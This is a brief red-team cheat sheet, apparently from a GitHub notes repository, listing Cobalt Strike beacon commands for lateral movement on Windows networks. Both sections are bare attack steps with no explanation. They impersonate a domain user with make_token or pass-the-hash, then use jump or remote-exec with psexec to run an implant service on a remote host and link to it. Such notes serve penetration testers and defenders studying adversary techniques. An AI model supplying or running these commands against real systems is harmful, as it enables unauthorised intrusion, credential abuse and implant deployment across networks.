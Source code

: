 # Cobalt Strike

Search Tag(s): #lateral-movement #cobalt-strike #psexec #windows

## 01 - Jump

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> jump <psexec | psexec_psh | psexec64> <listener> <IP>
```

## 02 - Remote-Exec

```
beacon> make_token <domain>\<username> <password>

beacon> pth <domain>\<username> <password>

beacon> remote-exec psexec <IP> C:\path\to\implantsvc.exe

beacon> link <IP>
```